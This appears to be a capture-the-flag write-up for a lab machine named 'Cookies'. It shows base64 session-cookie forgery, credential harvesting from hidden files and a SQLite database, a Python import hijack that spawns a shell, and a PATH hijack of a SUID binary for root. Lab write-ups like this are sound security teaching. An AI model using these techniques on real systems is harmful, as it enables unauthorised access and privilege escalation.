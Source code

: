 # Cookies ? Writeup

## Enumeration
---
### *Nmap scan*:
```sh
nmap -sV -sC -p- cookie.thm
```
### *Web enumeration*:
```sh
ffuf -w [wordlist] -u http://cookie.thm/FUZZ
```

In robots.txt file we have an user : CookieMonster

## Exploitation
----
### *Web* :


We can see that the cookie is encoded in base64, When we decode it we see that it's user + number. So we encode "CookieMonster" and we replace the cookie with this one. We refresh the page and we have the credentials for the ftp server.

### *FTP* :

We connect to the ftp server :
```sh
get .important.txt
cd files/
get .secret.txt
 ```

### *Web 2*:

We display the file's content and we can see a file path encoded in base64
```sh
echo [content] | base64 -d 
```
We got cookie_gift that is a folder in the web server. When we browse to cookie.thm/cookie_gift we get the ssh password for david

## Access
----

### *SSH*:


We connect to the ssh server : 
```sh
ssh david@cookie.thm 
```
Then we enter the password found previously.

### *Privilege Escalation*:

In the /home/david/ directory, there is a file called .secure, in which we learn that there is a db hidden somewhere in the system. So we will try to find a db :
```sh
find / -type f -name "*.db" 2>/dev/null
```
One file called .client.db seems to be interesting, so we connect to it using sqlite3. In the table : clients3 there are two password, we take the second one. We can now escalate to cookiemonster:
```sh
su cookiemonster
/bin/bash -i
```

### *Privilege Escalation 2*:
We go to /home/cookiemonster and we see a .py file. In this python file, at the beginning, there is an import from a path. When we import a python librairy, it's executed from the top, to the bottom. So we can create a library that spawn a shell. We can execute that script as cookiemaster.

Now we create a folder named lib with the library inside of it :
```sh
mkdir lib
cd lib
touch module.py
nano module.py
inside nano :
        import pty
        pty.spawn('/bin/bash')

sudo -u cookiemaster /usr/bin/python3 /home/cookiemonster/script.py 0
```

We are logged as cookiemaster now !

## Road to Root
---
We move to /home/cookiemaster and we see a file called .cookiejar, a suid binary. Now we can use the PATH exploitation to gain a shell. When we run .cookiejar it displays "O_o" so it may execute another binary to display "O_o". We can deduce that it can be cat (if it's stored in a file) or echo. So:
```sh
echo "/bin/bash -i" > echo
chmod +x echo

echo "/bin/bash -i" > cat
chmod +x cat
```
We display the environnement PATH variable to be able to restore it after the exploitation and we replace it with our one:
```sh
echo $PATH
export PATH="."
```
We run cookiejar and restore the path :
```sh
export PATH=[path saved before]
```
We are now root and can display the content of /root/root.txt !

That's it, we have the root flag !

---
----

### In Video : https://www.youtube.com/watch?v=ktj1d2U2iZE&ab_channel=Ph3nX
----
---